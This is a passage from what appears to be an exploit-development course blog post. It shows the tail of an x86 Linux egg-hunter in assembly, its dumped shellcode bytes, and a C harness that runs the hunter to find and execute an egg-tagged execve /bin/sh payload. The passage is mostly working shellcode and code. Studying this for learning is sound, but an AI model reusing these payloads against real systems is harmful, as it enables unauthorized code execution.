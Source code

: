 				; has this value, a signal for a invalid page
				; access it has been received
	jz next_page

	mov eax, key
	mov edi, edx
	scasd

	jnz next_addr
 
	scasd
	jnz next_addr

	; At this point we are at the very beginning of our shellcode, after
	; the second key. We can jump to it
	jmp edi

section .data
	key equ 0xdeadbeef

{% endhighlight %}

The basic idea here is to traverse memory using EBX register as pointer and
access() system call to check if we're pointing a memory region we're allowed
to read. In this case we are in one of our process memory page and than our
second stage can be found there.


Dumping the shellcode I obtained:

{%highlight sh %}
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\xb8\xef\xbe\xad\xde\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\xff\xe7"
{%endhighlight %}

I added this shellcode into the same C program used in the first assignment to
test our shellcode and I executed it in order to check the payload is correct.

{%highlight c%}
#include<stdio.h>
#include<string.h>

unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\xb8\xef\xbe\xad\xde\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\xff\xe7";

unsigned char code[] = \
"\xef\xbe\xad\xde\xef\xbe\xad\xde\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80";

		       
int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	printf("Egghunter Length:  %d\n", strlen(egg_hunter));
	int (*ret)() = (int(*)())egg_hunter;
	ret();
}

{% endhighlight %}
